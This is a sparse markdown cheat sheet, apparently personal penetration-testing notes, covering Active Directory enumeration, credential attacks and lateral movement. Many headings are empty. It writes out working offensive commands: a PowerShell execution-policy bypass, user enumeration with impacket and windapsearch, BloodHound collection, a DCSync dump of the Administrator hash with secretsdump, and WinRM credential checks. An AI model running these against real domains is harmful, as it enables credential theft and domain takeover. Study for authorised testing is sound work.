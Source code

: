 # Enumeration

## Some tips:
In order to execute some powershell scripts:
```
powershell -ep bypass
```

About users (script for getting users)

## Manual

Windapsearch form anonymous binds:
```
./windapsearch.py -d domain.com --dc-ip $rhost -U
```

### Enumerate Users
```
impacket-GetADUsers domain.com -dc-ip $rhost -debug
```

[Username anarchy - Tool for generating usernames when pentesting.](https://github.com/urbanadventurer/username-anarchy)

If you have only users, you should try **AS-REP Roasting**.

Enumerate Local Accounts on the machine:
```
net user /domain
```

Checking admin account:
```
net user admin /domain
```

Enumerate roups:
```
net group /domain
```

Get information about Sales Department
```
net group "Sales Department" /domain
```

### Operating System

### Permissions and Logged on Users

### Enumeration Through Service Principal Names

### Enumerating Object Permissions

### Enumerating Domain Shares

## Automatic

### BloodHound

#### Sharphound:
```
Invoke-BloodHound -CollectionMethod All
```

#### Analyzing Data

#### Raw Queries

Return Computers:
```
MATCH (m:Computer) RETURN m
```

Return Users:
```
MATCH (m:User) RETURN m
```

```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

# Attacking


![](img\kerberos_auth.jpg)

## Password Attacks

## AS-REP Roasting

## Kerberoasting

## Silver Tickets

## Domain Controller Synchronization

With impacket:
```
secretsdump.py domain.com/username@$rhost -just-dc-user Administrator
```

with mimikatz:


# Lateral Movement

How to create a PSCredential:
```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

## Wmic and WinRM
WMI, we need credentials of a member of the Administrators local group

For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

Checking for WinRM:
```
crackmapexec winrm $ip -u user -p password
```
## PsExec
The user that authenticates to the target machine needs to be part of the Administrators local group
The ADMIN$ share must be available and File and Printer Sharing has to be turned on

impacket-psexec
## Pass the Hash

## Overpass the Hash

## Pass the Ticket

## DCOM

# Persistance

## Golden Ticket

## Shadow Ticket
